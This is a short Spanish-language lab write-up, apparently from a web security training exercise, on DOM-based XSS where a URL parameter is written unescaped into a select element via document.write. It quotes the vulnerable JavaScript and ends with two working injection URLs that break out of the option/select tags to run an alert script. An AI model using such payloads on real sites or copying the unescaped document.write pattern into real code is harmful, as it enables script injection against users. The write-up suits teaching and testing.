




# DOM XSS in `document.write` sink using source `location.search` inside a select element

Revisando tenemos el siguiente codigo que se ejecuta para representar las opciones de `stores`:



```c
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
	document.write('<option selected>'+store+'</option>');
    }
 for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
        }
    document.write('<option>'+stores[i]+'</option>');
    }
document.write('</select>');
```

Testeando podemos agregar `&storeId=test` y agregaremos nuestro campo ingresado a la caja de opciones.



Vemos que nuestro input se representa en:

```c
<option selected="">test</option>
```

Tendremos en cuenta las etiquitas `select`.



Entonces cerramos esa etiqueta y ponemos la nuestra

```c
/product?productId=14&storeId="></select><script>alert(1)</script>
/product?productId=14&storeId=</option><script>alert(1)</script>//
```




